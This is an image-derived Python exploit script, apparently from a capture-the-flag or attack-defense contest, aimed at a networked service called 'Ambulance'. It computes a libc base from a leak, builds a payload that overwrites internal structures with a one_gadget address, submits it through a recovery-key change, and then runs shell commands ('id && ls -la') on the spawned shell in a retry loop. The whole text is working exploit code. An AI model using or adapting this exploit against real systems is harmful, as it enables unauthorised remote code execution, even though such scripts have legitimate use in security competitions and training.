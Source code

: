 ```python
    libc_base = leak + 0x5a2480
    one_gadget = libc_base + 0xe3afe

    payload = b''.join([
        b'A' * 2,
        p64(0x4343434343434343) * 4,

        p64(0x0000000000000003), p64(buffer + 0x50),
        p64(0x0000000000000000), p64(0x0000000000000000),
        p64(0x0000000000000000), p64(0x0000000000000000),

        p64(0x00000000000000ff), p64(0x000000000094bdc0),
        p64(0x0000000000000000), p64(libc_base),
        p64(0x4141414141414141), p64(0x4242424242424242),
        p64(one_gadget), p64(0x4242424242424242),
        p64(0x0000000000000000) * 14,
        p64(buffer + 0x20) * 3
    ])[:-2]
    payload_password = utils.b64encode(payload)
    await io.change_recovery_key(payload_password, '')
    print('rewrited list')

    await io.read_user_menu()
    await io.read_prompt()
    await io.writeline(b'1')
    print('leaked libc first bytes')
    print(repr(await io.readline()))
    print(repr(await io.readline()))

    await io.logout()
    time.sleep(1)
    print('shell should be spawned')

    await io.writeline(cmd.encode())

    for _ in range(100):
        line = await io.readline()
        print(line.strip())

        if len(line.strip()) == 0:
            break


async def main() -> None:
    cmd = 'id && ls -la && exit'

    while True:
        print('trying...')

        async with api.Ambulance.connect(IP, PORT) as io:
            try:
                await attack(io, cmd)
                break
            except Exception as e:
                print(e)


if __name__ == '__main__':
    asyncio.run(main())
```

